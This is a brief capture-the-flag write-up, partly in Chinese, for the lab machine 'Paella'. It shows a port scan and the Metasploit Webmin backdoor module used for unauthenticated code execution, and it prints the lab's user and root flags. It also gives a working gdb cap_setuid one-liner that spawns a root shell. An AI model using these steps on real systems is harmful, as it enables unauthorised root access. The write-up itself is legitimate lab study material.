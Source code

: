 # Paella

2025.03.03 https://thehackerslabs.com/paella/

[video](https://www.bilibili.com/video/BV19n9zYgEyq/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
10000/tcp open  snet-sensor-mgmt
```

10000 端口对应的是 webmin，版本 MiniServ 1.920 (Webmin httpd) ，存在 unauthenticated RCE，使用常用用户名和密码尝试登陆没成功。

使用 msf 中的这个利用 exploit/linux/http/webmin_backdoor (This module exploits a backdoor in Webmin versions 1.890 through 1.920.)

先拿到了 user flag：

```
paella@TheHackersLabs-Paella:~$ cat  user.txt
05ac8932faf12b665a61a9037ec5acf9
```

枚举发现 cap 程序 /usr/bin/gdb = cap_setuid+ep

```
cd /usr/bin  # 这里要进入目录执行，否则下面执行会
./gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
```

读取到了最终的 root flag：

```
# cat /root/root.txt
8172435d40ee34816d6c34d0fd5af015
```
